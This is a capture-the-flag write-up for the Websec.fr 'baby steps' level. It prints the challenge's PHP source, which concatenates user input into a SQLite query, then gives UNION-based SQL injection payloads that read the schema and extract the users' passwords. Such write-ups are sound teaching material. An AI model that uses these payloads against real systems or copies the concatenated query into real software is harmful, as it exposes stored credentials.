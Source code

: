 ```yaml
---
title: Websec.fr level 1 - baby steps
date: April 13, 2024 11:00:00
author: Elad
categories: [Write-ups]
tags: [Websec.fr]
---
```


# The level
![image](https://github.com/eladyesh/Anti_Virus/assets/102996033/4fa7221e-d261-4cdb-8d9f-bd816d2a92c2)
![image](https://github.com/eladyesh/Anti_Virus/assets/102996033/b75c5333-2532-42d2-89a4-85ff040dd635)


source code:
```php
<?php
session_start ();

ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

include 'anti_csrf.php';

init_token ();

class LevelOne {
    public function doQuery($injection) {
        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);
        
        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query($query);
        $users = $getUsers->fetchArray(SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id'])) {
    check_and_refresh_token();

    $lo = new LevelOne ();
    $userDetails = $lo->doQuery ($_POST['user_id']);
}
?>
```

so we can see that the query 
```php
$query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
```

selects id, username from users where id is something. Great!<br>
we want to [UNION](https://www.w3schools.com/sql/sql_union.asp) another query that will take a password, or something that can give us the flag. Let's check the sql scheme from [sqlite_master](https://renenyffenegger.ch/notes/development/databases/SQLite/internals/schema-objects/sqlite_master/index)

```sql
1, UNION SELECT 1,sql FROM sqlite_master
```
(Remember, the union sql has to be the same amount of columns as the first sql query)

![image](https://github.com/eladyesh/Anti_Virus/assets/102996033/59e9aac3-1716-4e08-846a-83162828b9dd)

Look ! we have a password field, lets try to get that

```sql
1 UNION SELECT id, password FROM users WHERE id=1
```
so that complete sql query is 
```sql
SELECT id, username FROM users WHERE id=1 
UNION 
SELECT 1, password FROM users WHERE id=1 LIMIT 1;
```
![image](https://github.com/eladyesh/Anti_Virus/assets/102996033/5da83c7a-7ace-48e4-a34c-41f3a8149c6a)

Got it !
Thanks for reading


